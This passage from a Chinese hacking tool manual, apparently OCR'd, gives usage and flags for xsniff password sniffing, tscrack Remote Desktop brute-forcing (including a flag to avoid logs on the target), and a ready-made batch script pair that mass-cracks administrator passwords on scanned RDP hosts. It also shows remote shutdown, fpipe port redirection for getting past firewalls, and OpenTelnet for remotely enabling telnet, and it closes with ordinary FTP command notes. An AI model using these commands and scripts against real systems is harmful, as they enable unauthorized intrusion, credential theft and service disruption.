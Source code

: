  - -log 文件名 将输出保存到文件
 - -asc 以ASCII形式输出
 - -hex 以16进制形式输出
 - 用法示例
 - xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
 - xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
 - 终端服务密码破解: tscrack.exe
 - 参数说明
 - -h 显示使用帮助
 - -v 显示版本信息
 - -s 在屏幕上打出解密能力
 - -b 密码错误时发出的声音
 - -t 同是发出多个连接（多线程）
 - -N Prevent System Log entries on targeted server
 - -U 卸载移除tscrack组件
 - -f 使用－f后面的密码
 - -F 间隔时间（频率）
 - -l 使用－l后面的用户名
 - -w 使用－w后面的密码字典
 - -p 使用－p后面的密码
 - -D 登录主页面
 - 用法示例
 - tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
 - tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
 - @if not exist ipcscan.txt goto noscan
 - @for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
 - nscan
 - @echo 3389.txt no find or scan faild
 - (①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
 - 3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
 - @if not exist tscrack.exe goto noscan
 - @tscrack %1 -l administrator -w pass.dic &gt;&gt;rouji.txt
 - :noscan
 - @echo tscrack.exe no find or scan faild
 - (②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
 - hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
 - 其它
 - Shutdown.exe
 - Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
 - fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
 - fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
 - Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
 - OpenTelnet.exe (远程开启telnet工具)
 - opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
 - NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
 - ResumeTelnet.exe (OpenTelnet附带的另一个工具)
 - resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。
 - FTP命令详解
 - FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
 - FTP的命令行格式为：
 - ftp -v -d -i -n -g [主机名] ，其中
 - -v 显示远程服务器的所有响应信息
 - -n 限制ftp的自动登录，即不使用；.n etrc文件；
 - -d 使用调试方式；
 - -g 取消全局文件名。
 - FTP使用的内部命令如下(中括号表示可选项):
 - 1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip
 - 2.$ macro-ame[args]： 执行宏定义macro-name。
 - 3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。
 - 4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
 - 5.ascii：使用ascii类型传输方式。